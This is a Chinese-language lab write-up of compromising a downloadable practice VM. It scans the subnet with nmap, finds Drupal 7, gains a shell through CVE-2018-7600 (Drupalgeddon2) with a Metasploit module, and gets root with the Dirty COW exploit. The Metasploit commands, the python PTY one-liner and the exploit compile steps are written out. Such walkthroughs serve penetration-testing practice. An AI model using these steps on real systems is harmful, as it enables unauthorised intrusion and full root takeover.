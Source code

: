 # CVE-2018-7600+脏牛

---

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- win7
- centos7
- MSF5
- Nmap
- [靶机下载地址](https://mega.nz/#!aG4AAaDB!CBLRRYQsAhTOyPJqyjC0Blr-weMH9QMdYbPfMj0LGeM)
---


在导入到 VMware 后 发现是个登录界面，在确认靶机 IP段后使用 `nmap` 对目标网段进行扫描

`nmap -T5 -v -f -sS -Pn -p- 192.168.91.0/24`

![](img/1.png)

访问80端口发现一个没用的静态页面，再访问1898端口，出现web页面

![](img/2.png)

进行目录扫描，发现  `robots.txt`

![](img/3.png)

使用用谷歌插件 `wappalyzer` 知道了这个web是用 `drupal7 cms`写的
![](img/4.png)

访问信息配置页面 `http://192.168.91.134:1898/CHANGELOG.txt`

![](img/5.png)

> 快进到 使用 CVE-2018-7600 版本命令执行漏洞

### CVE-2018-7600利用

进入msf，然后search搜索CVE-2018-7600
![](img/6.png)

```
use exploit/unix/webapp/drupal_drupalgeddon2
set rhosts IP
set rport 1898
run
```
![](img/7.png)

用python获取标准shell:
python shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
### 脏牛提权的利用

![](img/8.png)

去msf中查找对应的exp
```
searchsploit dirty

cp/usr/share/exploitdb/exploits/linux/local/40847.cpp /root/1.cpp

# 进入msf upload 1.cpp

g++ -Wall -pedantic -O2 -std=c++11 -pthread -o 40847 1.cpp -lutil
./40847
```
![](img/9.png)

获取目标 root 密码

ssh重新连接，用户为root，密码为 `dirtyCowFun`